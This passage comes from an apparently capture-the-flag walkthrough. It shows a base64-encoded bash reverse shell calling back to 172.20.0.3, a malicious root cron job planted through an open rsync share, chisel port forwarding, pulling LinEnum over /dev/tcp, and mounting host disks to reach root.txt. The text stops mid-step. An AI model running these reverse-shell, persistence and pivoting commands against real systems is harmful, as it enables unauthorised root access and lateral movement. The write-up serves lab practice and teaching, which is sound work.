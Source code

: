 ```bash
echo "bash -c 'bash -i >& /dev/tcp/172.20.0.3/8051 0>&1'" | base64 

YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzgwNTEgMD4mMScK

echo "* * * * * root echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzgwNTEgMD4mMScK | base64 -d | bash" > clean
```

Now we send the file over and hopefully the server executes it.

```bash
on www:
rsync -avp clean rsync://backup:873/src/etc/cron.d/clean
```

We got root shell in backup. We check the ip, there seem to no other subnets. Let’s again transfer LinEnum, this time to backup

```bash
On www:
/tmp/chisel client 172.19.0.4:8150 1236:127.0.0.1:1236

on attack
nc -lnvp 1236 < /home/billy/tools/LinEnum.sh

on backup:
cat < /dev/tcp/172.20.0.3/1236 > linenum.sh

chmod 777 linenum.sh
./linenum.sh
```

We find nothing of interest. Let’s just go through enumerating interesting files, as we are root, we don’t really care for escalating privileges. We list mountable drives:

```bash
lsblk

result:
sda      8:0    0    7G  0 disk 
|-sda2   8:2    0  5.5G  0 part /etc/hosts
|-sda3   8:3    0    1G  0 part [SWAP]
`-sda1   8:1    0  512M  0 part

#let's create dirs so we can mounnt all and see
mkdir sda{1,2,3}

mount /dev/sda1 sda1
mount /dev/sda2 sda2
mount /dev/sda3 sda3
```

And we find root.txt in sda2/root/

Now we can attempt to get reverse shell from what seems to be the main host. So we do  not need chisel to do another port forward and exploit the cronjobs. First go into the sda2 directory then:
